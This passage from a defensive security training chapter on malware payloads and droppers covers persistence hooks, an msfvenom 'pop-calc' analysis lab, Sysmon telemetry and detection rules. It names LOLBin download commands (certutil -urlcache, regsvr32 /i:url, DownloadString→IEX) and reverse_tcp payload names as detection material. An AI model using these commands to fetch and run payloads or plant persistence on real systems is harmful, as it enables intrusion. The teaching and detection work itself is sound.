Droppers frequently do more than execute once — they install **persistence** so the payload survives logoff and reboot. Persistence has its own chapter later, but because droppers so often bundle it, a defender must recognise the common hooks a dropper *writes*. Each is a durable, high-value detection artifact.

| Mechanism | Where it lives | How it runs | Detection artifact |
|-----------|----------------|-------------|--------------------|
| Run/RunOnce keys | `HKCU/HKLM\...\CurrentVersion\Run` | At logon | Registry write to Run key (Sysmon EID 13) |
| Scheduled Task | Task Scheduler | On trigger/schedule | `schtasks`/`Register-ScheduledTask`, task XML on disk |
| Service | SCM | At boot as SYSTEM | New service creation (EID 7045) |
| Startup folder | `...\Start Menu\Programs\Startup` | At logon | File-create in Startup |
| WMI event subscription | WMI repository | On event | New `__EventFilter`/`CommandLineConsumer` |

A **benign** illustration of the single most common one — a Run key — shown pointing at a harmless program so you can see the artifact shape without arming anything:

```powershell
# BENIGN: create an autostart Run entry that launches the (harmless) Calculator.
# The point is the ARTIFACT: a value under the Run key. Malware writes the same
# artifact pointing at its payload; the detection is identical.
New-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' `
  -Name 'DemoCalc' -Value 'calc.exe' -PropertyType String -Force

# Clean it up afterwards in your lab:
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' -Name 'DemoCalc'
```

**Blue team usage:** the four "autoruns" data sources — Run keys, Scheduled Tasks, Services, and WMI subscriptions — are among the highest-value hunt surfaces in Windows, because *legitimate* persistence is relatively rare and well-known, so new entries are inherently suspicious. Sysinternals **Autoruns** enumerates all of them at once; in an enterprise, baselining these and alerting on deltas catches persistence that survived the initial-access detection. **Analyst relevance:** when you triage a dropper, always check what it *left behind* for persistence — it tells you scope (did it move to SYSTEM via a service?) and gives you a durable IOC to sweep the fleet with.

## Part 9: Hands-On Lab — Generating and *Analysing* a Benign Payload

This lab is the reproducible, defanged core of the chapter. Its goal is **analysis**: generate a harmless *pop-calc* artifact with `msfvenom` (so we possess a safe, representative sample) and then examine it with the exact tools and techniques an analyst or blue-teamer uses on a real dropper. **Everything runs inside an isolated analysis VM** (no shared folders you care about, no network route to systems you do not own). The payload does nothing but open Calculator.

### Lab environment

```text
- Kali Linux VM  (has msfvenom) — to generate the benign sample
- Windows analysis VM (isolated, snapshot taken) — to detonate & observe
- Tools on Windows: Sysinternals Process Monitor, Process Explorer,
  Autoruns, Sysmon (with a sane config), PEStudio/Detect-It-Easy for static
- Networking: host-only / no internet, or an INetSim/FakeNet sinkhole
```

### Step 1 — Generate the benign sample (Kali)

```bash
# Benign exec-calc payload wrapped as an EXE (from Part 4).
msfvenom -p windows/x64/exec CMD=calc.exe -f exe -o calc_demo.exe
```

Expected output (annotated):

```text
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes            # <- tiny: it only calls WinExec("calc.exe")
Final size of exe file: 7168 bytes # <- the PE wrapper/stub around the shellcode
Saved as: calc_demo.exe
```

Take a hash immediately — the first thing any analyst records:

```bash
sha256sum calc_demo.exe
# e.g. 3f2a...  calc_demo.exe   (yours will differ; msfvenom output varies)
```

### Step 2 — Static triage (before running anything)

Copy `calc_demo.exe` to the Windows analysis VM. Static analysis first — you never detonate before you have looked:

```text
# Detect-It-Easy / PEStudio observations you'd record:
- File type: PE32+ executable (x64)
- Sections: .text/.data + an extra RWX-ish section is a red flag on real samples
- Imports: very few — for MSF stubs, often just kernel32 basics; the API
  resolution is done at runtime by walking the PEB, so the Import Table looks
  suspiciously bare (a classic "this resolves APIs dynamically" tell).
- Strings: run `strings` — a benign exec-calc reveals little; real droppers
  often leak URLs, user-agents, or mutex names here.
```

```bash
# On Kali or the VM, dump printable strings — a 30-second triage habit:
strings -n 6 calc_demo.exe | head -40
```

**Analyst relevance:** a nearly-empty import table plus a small `.text` section that ends up executing from a region the loader marked writable is the static fingerprint of shellcode-in-a-PE. On a real dropper you would also see network strings; their *absence* here is itself informative — this sample resolves nothing and phones nowhere, consistent with a pure exec payload.

### Step 3 — Dynamic analysis (detonate under a microscope)

Snapshot the VM. Start **Process Monitor** (ProcMon) with a filter, start **Sysmon** logging, then run the sample:

```text
ProcMon filter to set BEFORE running:
  - Process Name is calc_demo.exe  -> Include
  - Operation is Process Create    -> Include
  - Operation is Process Start     -> Include
```

Run it:

```bat
C:\analysis\calc_demo.exe
```

What you should observe (this is the whole point — mapping behaviour to telemetry):

```text
Process Explorer / Sysmon EID 1 (Process Create):
  Parent:  calc_demo.exe   (PID 4812)
  Child:   calc.exe        (PID 5044)   <-- the benign action
  CommandLine: calc.exe

ProcMon highlights:
  calc_demo.exe  Process Create  C:\Windows\System32\calc.exe  SUCCESS
  (No file writes, no network, no registry Run-key writes for THIS benign sample)
```

The Sysmon Event ID 1 record you would see (trimmed):

```xml
<Event><System><EventID>1</EventID></System>
 <EventData>
   <Data Name="Image">C:\analysis\calc_demo.exe</Data>
   <Data Name="CommandLine">C:\analysis\calc_demo.exe</Data>
   <Data Name="ParentImage">C:\Windows\explorer.exe</Data>
   <Data Name="ProcessId">4812</Data>
 </EventData></Event>
<Event><System><EventID>1</EventID></System>
 <EventData>
   <Data Name="Image">C:\Windows\System32\win32calc.exe</Data>
   <Data Name="ParentImage">C:\analysis\calc_demo.exe</Data>   <!-- the tell -->
   <Data Name="ParentProcessId">4812</Data>
 </EventData></Event>
```

**Blue team usage:** the crucial artifact even for this harmless sample is the **parent/child relationship**: an unknown binary from `C:\analysis\` spawning a child process. On a real dropper the child would be `powershell.exe` or a beacon, and there would additionally be a file-write and an outbound connection. By practising on the benign sample you learn to read the *shape* of the events so the malicious shape is obvious.

### Step 4 — What the malicious variant would add (recognition, not construction)

To make the lab defensively complete without building anything dangerous, enumerate — as an analyst checklist — the *additional* events a real dropper (vs our exec-calc) would generate, so you know what to look for:

```text
Extra events a REAL dropper would produce (that our benign one does NOT):
  [Network]   Sysmon EID 3: outbound connection from calc_demo.exe to C2 IP:port
  [File]      Sysmon EID 11: file-create of the second stage in %TEMP%/%APPDATA%
  [Registry]  Sysmon EID 13: Run-key write for persistence
  [Memory]    Sysmon EID 8 / EID 10: CreateRemoteThread / process access (injection)
  [Script]    EID 4104 (PowerShell script block): DownloadString + IEX cradle
```

That table *is* the detection content. You generated a safe sample, watched exactly which telemetry a benign action produces, and now you know precisely which *additional* signals separate benign from malicious. Delete the sample and revert the snapshot when done:

```powershell
Remove-Item C:\analysis\calc_demo.exe -Force
# then: revert VM to the clean snapshot
```

## Part 10: Real-World Cases and Tooling Context

Understanding construction is easier when anchored to real campaigns and tools that defenders actually encounter. None of the following require any offensive code to learn from — they are case studies.

- **Emotet / IcedID / QakBot droppers.** These commodity loaders were, for years, the dominant initial-access droppers, overwhelmingly delivered as **malicious Office macros** or later as **OneNote/HTA/ISO** attachments that spawned `powershell.exe`/`wscript.exe`. The through-line detection was always the same Office→interpreter parent/child chain from Part 5. When Microsoft **blocked macros from internet-sourced Office files by default**, attackers pivoted to container formats (ISO/IMG/LNK) — a real, observable example of construction adapting to a defensive control.
- **HTA and "Squiblydoo" (`regsvr32 /i:url scrobj.dll`).** A widely-abused LOLBin technique (MITRE ATT&CK **T1218.010**) that ran remote scriptlets via a signed Microsoft binary. It is the textbook example of why *tool + verb* detections (regsvr32 talking to the internet) beat trying to signature the payload.
- **`certutil` as a downloader (T1105).** A signed Windows utility repeatedly abused to fetch payloads; its appearance downloading from the internet is near-universally malicious in enterprise telemetry.
- **msfvenom/Metasploit and Cobalt Strike artifacts.** Because these frameworks are so common, their default stagers, named pipes, and the x64 shellcode prologue (Part 4) are heavily signatured by YARA and network IDS. A large fraction of real intrusions still use lightly-modified defaults, which is why knowing the default artifacts is disproportionately valuable to a defender.



**Bug bounty / CTF note:** while payload *building* is offensive, the *recognition* skills here map directly onto CTF forensics and malware-analysis categories (picoCTF forensics, blue-team rooms on TryHackMe, and SANS-style "analyze this dropper" challenges). Being able to read a captured cradle, identify the wrapper format, and name the stager convention is frequently the flag.

## Part 11: Detection & Defense Angle (Consolidated)

Per the reference chapters, the offensive/analytical material above folds detection notes inline; this consolidated part is the single place we assemble the full defender's playbook against payloads and droppers. This is the most important section for the majority of readers.

### The layered model



### Detection sources and what each catches

| Layer | Data source / control | Catches |
|-------|----------------------|---------|
| Delivery | Mail sandboxing, MOTW/Mark-of-the-Web, attachment policy | Macro/HTA/ISO lures before execution |
| Static file | AV, EDR static, reputation, YARA | Known payloads, MSF/CS default artifacts |
| Execution chain | Sysmon EID 1 + EDR process tree | Office→interpreter, LOLBin abuse |
| Script | AMSI + PowerShell script-block logging (EID 4104) | `DownloadString`→`IEX`, encoded one-liners |
| Network | Zeek/Suricata, JA3/JA3S, DNS logs | Stager retrieval, beaconing, cradle GETs |
| Memory | EDR memory scan, ETW, Volatility `malfind` | Fileless/RWX, injection, unbacked threads |
| Persistence | Autoruns baseline, Sysmon EID 13/7045 | Run keys, tasks, services, WMI subs |

### High-value, low-noise detection rules (in words)

1. **Office/Outlook spawning an interpreter.** Parent in {winword, excel, powerpnt, outlook} → child in {powershell, cmd, wscript, cscript, mshta, rundll32, regsvr32}. Near-zero legitimate volume; catches most commodity droppers.
2. **LOLBin + network.** `regsvr32`, `mshta`, `certutil`, `bitsadmin` making outbound connections or referencing URLs on the command line.
3. **PowerShell download cradle.** Script-block (EID 4104) containing `DownloadString`/`DownloadData`/`Invoke-WebRequest` in proximity to `IEX`/`Invoke-Expression`, or `-enc`/`-EncodedCommand` with a long base64 blob.
4. **RWX / injection.** `CreateRemoteThread` (Sysmon EID 8), suspicious `ProcessAccess` (EID 10) into `lsass`/other, or EDR flags for W+X memory.
5. **New persistence.** Any new Run-key value, scheduled task, service (EID 7045), or WMI event consumer that is not in the baseline.

### Controls that reduce the attack surface

- **Block macros from the internet** (Microsoft default now) and disable legacy WSH/HTA where feasible.
- **Application control** (WDAC / AppLocker) to stop unsigned EXEs and constrain LOLBins; **Attack Surface Reduction (ASR)** rules specifically target Office-spawns-child and credential theft.
- **PowerShell Constrained Language Mode** + AMSI + full script-block/module logging.
- **EDR with memory scanning** so fileless payloads still generate evidence.
- **Egress control and DNS/TLS inspection** so stager retrieval and beaconing have somewhere to be caught.
- **Autoruns baselining** so persistence deltas alert.

**IR use case:** when you catch a dropper, work the chain in both directions — *backward* to the delivery (which mail, which user, which lure) for scoping and takedown, and *forward* to persistence and C2 (what did it install, where does it call) for eradication and fleet-wide IOC sweeping. The construction knowledge in this chapter is what lets you predict the forward steps before the adversary completes them.

## Part 12: Common Pitfalls and Misconceptions

- **"Encoders make payloads undetectable."** They do not (Part 4). Encoding changes bytes, not behaviour; the decoder stub is signatured and runtime telemetry is unchanged.
- **"Fileless means undetectable."** No — it moves evidence from disk to memory/behaviour (RWX regions, injection APIs, unbacked threads). Memory scanning and EDR still see it.
- **"If AV didn't flag the file, it's safe."** Static AV is one layer; behavioural and network detection exist precisely because static scanning is evadable. Never treat an AV pass as clearance.
- **Detonating without isolation.** Running *any* sample — even a supposedly benign one — outside a snapshotted, network-isolated VM is how analysts infect themselves. Always snapshot, isolate, and revert.
- **Confusing dropper with downloader / stager with stage.** These have distinct network footprints (Part 2/3); mislabeling them in an IR report sends responders looking in the wrong place.
- **Assuming defaults were changed.** A large share of real intrusions use *unmodified* framework defaults; do not skip the "is this just default Metasploit/Cobalt Strike?" check — it is often the fastest identification.
- **Trusting a single indicator.** Every technique here has a benign twin (dual-use, Chapter 1). Detection is about *anomalous combinations in context*, not any one event.

## Part 13: Final Revision / Summary

- A **payload** is the code that runs to achieve the goal; **shellcode** is small position-independent machine code; the benign anchor is *pop calc*.
- **Payload / stager / stage / dropper / loader** are distinct: dropper *contains* the payload, downloader *fetches* it, stager pulls a larger *stage* into memory, loader handles *execution*.
- **Staged vs stageless**: slash `meterpreter/reverse_tcp` = staged (tiny stager pulls the stage — a strong network signal); underscore `meterpreter_reverse_tcp` = stageless (self-contained, larger file).
- **`msfvenom`** generates payload artifacts; `-p` payload, `-f` format, `-o` output, `-e/-i` encoders (which do **not** provide real AV evasion). The x64 MSF shellcode prologue (`\xfc\x48\x83\xe4\xf0…`) is a recognisable fingerprint.
- **Format wrappers** (EXE/DLL/HTA/macro/PS1/JS) determine *how* the payload runs; many rely on **LOLBins** (mshta, rundll32, regsvr32, certutil, powershell), which is exactly what makes *tool+verb* detections so effective.
- The classic **download-and-execute dropper**: run → (sandbox check) → retrieve → place → execute → persist. The `DownloadString`→`IEX` cradle is its most-seen primitive; we deliberately stopped at `Write-Output`.
- **On-disk vs in-memory**: fileless is not invisible — it trades file evidence (hash/MFT) for memory/behavioural evidence (RWX, injection APIs, unbacked threads).
- **Detection** layers across delivery, static, execution chain, script (AMSI/4104), network, memory, and persistence. The single highest-value rule is **Office→interpreter** parent/child.
- Everything here is **lab-scoped and defanged**; real evasion is Chapter 3, and everything is for authorized, lawful use only.

## Part 14: Cheat Sheet / Quick Reference

**Vocabulary**

| Term | One-liner |
|------|-----------|
| Payload | Code that runs to achieve the goal |
| Shellcode | Small, position-independent machine code |
| Stager | Tiny payload that pulls the stage |
| Stage | The large real implant the stager fetches |
| Dropper | Delivered file that *contains* + launches payload |
| Downloader | Delivered file that *fetches* payload |
| Loader | Component that maps + executes a payload |

**msfvenom (analysis/authorized use)**

```bash
msfvenom --list payloads                 # discover payloads
msfvenom --list formats                  # discover output wrappers
# BENIGN pop-calc sample for a lab:
msfvenom -p windows/x64/exec CMD=calc.exe -f exe -o calc_demo.exe
msfvenom -p windows/x64/exec CMD=calc.exe -f c   # see shellcode bytes
```

**Naming convention**

```text
windows/x64/meterpreter/reverse_tcp   -> STAGED   (slash)
windows/x64/meterpreter_reverse_tcp   -> STAGELESS(underscore)
```

**LOLBin tool+verb detections (memorise)**

```text
regsvr32 + URL (/i:http...)        -> Squiblydoo (T1218.010)
mshta + remote .hta                -> HTA execution
certutil -urlcache -split -f URL   -> downloader (T1105)
powershell DownloadString -> IEX   -> in-memory cradle
Office parent -> powershell/wscript/mshta child -> commodity dropper
```

**Top Sysmon event IDs for this topic**

```text
EID 1  Process Create   (parent/child chain)
EID 3  Network Connect  (stager retrieval, C2)
EID 8  CreateRemoteThread (injection)
EID 10 ProcessAccess    (injection into lsass etc.)
EID 11 FileCreate       (dropped stage)
EID 13 Registry Set     (Run-key persistence)
4104   PS Script Block  (cradle, encoded cmds)
7045   Service Install  (persistence as SYSTEM)
```

**Analysis lab discipline**

```text
Snapshot -> isolate network -> hash first -> static before dynamic
-> ProcMon/Sysmon filters set BEFORE run -> observe parent/child +
   net + file + reg + memory -> revert snapshot.
```

## Part 15: Practice Labs & Resources

Topic-specific practice that trains the *analysis and defense* skills in this chapter (not building weapons):

- **TryHackMe — "MAL: Malware Introductory", "Basic Malware RE", "Intro to Malware Analysis", "Sysmon", "Windows Event Logs".** Hands-on with static/dynamic triage and the exact telemetry from Part 9–11.
- **TryHackMe — "Aurora EDR" / detection-engineering rooms** and **"Investigating Windows"** for turning dropper behaviour into detections.
- **HackTheBox — "Sherlocks"** (defensive/forensics investigations) that walk through real dropper and initial-access chains from the analyst side.
- **MalwareBazaar / abuse.ch** — download *real* samples **only into a properly isolated analysis lab**; practise the Part 9 triage flow (hash → static → dynamic). Treat every sample as live.
- **VirusTotal / Hybrid Analysis / Any.Run** — read existing detonation reports of commodity droppers to see the exact process trees, network calls, and dropped files described in Parts 6–10 (Any.Run is interactive and great for watching the Office→interpreter chain live).
- **MITRE ATT&CK** — study **T1204 (User Execution)**, **T1059 (Command & Scripting Interpreter)**, **T1218 (Signed Binary Proxy / LOLBins)**, **T1105 (Ingress Tool Transfer)**, **T1055 (Process Injection)**, **T1547.001 (Run keys)**. Map each technique here to its ATT&CK ID.
- **LOLBAS project (lolbas-project.github.io)** — the reference catalogue of Living-Off-the-Land binaries; learn the *normal* profile of each so anomalies stand out.
- **The DFIR Report (thedfirreport.com)** — long-form real-intrusion write-ups that show droppers, staging, and persistence end-to-end with the telemetry defenders used — the best free way to connect this chapter to reality.

The next chapter moves from *building* payloads to **evasion** — how offensive tooling attempts to defeat AV/EDR and how defenders counter it — continuing the same lab-scoped, conceptual discipline: understanding the techniques so you can detect them, always for authorized and lawful use only.
